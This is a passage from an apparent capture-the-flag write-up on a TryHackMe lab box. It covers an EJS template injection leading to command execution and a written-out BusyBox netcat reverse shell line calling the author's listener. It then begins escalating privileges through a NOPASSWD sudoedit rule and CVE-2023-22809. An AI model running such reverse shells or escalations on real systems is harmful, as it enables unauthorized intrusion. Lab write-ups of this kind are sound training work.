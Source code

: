 github.com



](https://github.com/mde/ejs/issues/735?source=post_page-----8c4434fd3e5b---------------------------------------)

Using a payload like the following allowed me to execute commands on the server:

![](https://miro.medium.com/v2/resize:fit:788/1*Pp8gihqtyLlAN4TYUuOmUA.png)

With this in place, I executed the `id` command, which returned the user information, confirming my ability to execute commands on the server.

![](https://miro.medium.com/v2/resize:fit:788/1*Ll-rMuzTAPOYehiNMNAIYA.png)

To further escalate, I used a **BusyBox** reverse shell payload from [**revshells.com**](https://www.revshells.com/):

busybox nc 10.4.61.251 4444 -e bash

![](https://miro.medium.com/v2/resize:fit:788/1*GBOtdcw5qyBGvav_BzFjAQ.png)

Setting up a **Netcat listener** on my machine, I received the reverse shell and navigated to the home directory, where I found the `user.txt` file containing the flag.

![](https://miro.medium.com/v2/resize:fit:696/1*KCpXYjJ3ER40zKj4k1dkNg.png)

To stabilize the shell, I upgraded it to a more interactive one by using Python.

![](https://miro.medium.com/v2/resize:fit:788/1*KRaZNQMJybaS1hRrMIGUzg.png)

# Exploiting **CVE-2023–22809 for Privilege Escalation**

After obtaining access to the system, my first action was to check which commands I could run with **sudo** using the following command:

sudo -l

This revealed a critical piece of information: the user had **NOPASSWD** privileges for a specific command. The output indicated:

(root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm

![](https://miro.medium.com/v2/resize:fit:788/1*ibMkbS623ywWDBsv5CtnYQ.png)

This means the user could run the `sudoedit` command on the file `/etc/nginx/sites-available/admin.cyprusbank.thm` with root privileges, **without requiring a password**.  
The `sudoedit` command is typically used to edit files with root privileges in a safer manner (e.g., using `nano` or `vim`), but the presence of the **NOPASSWD** directive creates a security risk. This allows the user to potentially modify critical system files without authentication.

After doing some research, I came across an article by [**Synacktiv**](https://www.synacktiv.com/sites/default/files/2023-01/sudo-CVE-2023-22809.pdf) explaining **CVE-2023–22809**, a vulnerability in **sudoedit**. This vulnerability allows an attacker with access to the `sudoedit` command, especially with **NOPASSWD** privileges, to escalate their privileges and execute arbitrary commands as root.
